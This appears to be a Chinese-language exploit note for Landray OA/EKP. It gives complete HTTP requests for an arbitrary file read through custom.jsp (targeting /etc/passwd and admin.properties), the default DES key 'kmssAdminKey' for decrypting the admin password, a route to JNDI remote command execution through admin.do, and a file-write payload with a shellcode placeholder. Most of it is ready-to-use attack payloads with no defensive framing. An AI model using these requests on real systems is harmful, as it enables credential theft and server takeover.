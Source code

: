 ## 0x01-任意文件读取

   访问/sys/ui/extend/varkind/custom.jsp

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"file:///etc/passwd"}}
```

配合任意文件读取漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 可利用 JNDI远程命令执行获取权限。

## 0x02 SSRF+jndi

   利用任意文件读取/WEB-INF/KmssConfig/admin.properties配置文件
```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```
由此获得加密的password,蓝凌OA默认为DES加密，且有个默认密钥为 kmssAdminKey，可以拿着password在在线网站上尝试解密
地址  http://tool.chacuo.net/cryptdes/

![图片](https://user-images.githubusercontent.com/118274389/223748827-8fd0d2b2-6ca3-4083-92d2-6a815e25fa21.png)

## 0x03-EKP后台SQL注入

后台地址admin.do

## 0x04-任意文件写入漏洞1

```var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=[shellcode]```

